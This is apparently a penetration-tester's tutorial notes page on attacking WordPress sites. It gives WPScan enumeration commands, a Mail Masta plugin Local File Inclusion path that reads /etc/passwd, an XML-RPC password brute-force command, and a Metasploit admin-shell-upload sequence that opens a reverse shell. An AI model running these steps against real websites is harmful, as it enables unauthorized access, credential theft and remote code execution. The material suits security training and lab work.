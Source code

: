 Automated #WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable.

---

Verify installation
```shell
wpscan --hh
```

--- 

###  [WPScan API](https://wpscan.com/)

Enumerate vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments `--enumerate ap`. Let's run a normal enumeration scan against a WordPress website.
```shell
wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr4f...
```

---

## Exploitation

After enumerating vulnerable plugins, select which to exploit. This example exploits Local File Inclusion (LFI) in the Mail Masta plugin.

Any unauthenticated user can read local files through the path:
`/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

This can be used to enumerate potential users to brute-force 

```shell
...
sally.jones:x:1001:1001:Linux User,,,:/home/sally.jones:/bin/bash
...
```

### XMLRPC Brute Force
After enumerating WP users we can use the following command to brute-force login:
```shell
wpscan --password-attack xmlrpc -t 20 -U roger -P rockyou.txt --url http://blog.inlanefreight.com
```

Gaining access to an admin account can then be leveraged to change a theme's `.php` file to Remote Code Execution or #RCE with [[PHP Shells]]

---

## Metasploit
Using #metasploit we can automate the WP exploitation process

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:
```shell
msfconsole
...
msf5 > search wp_admin
...
msf5 > use 0
```

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options
...
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts target.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run
```

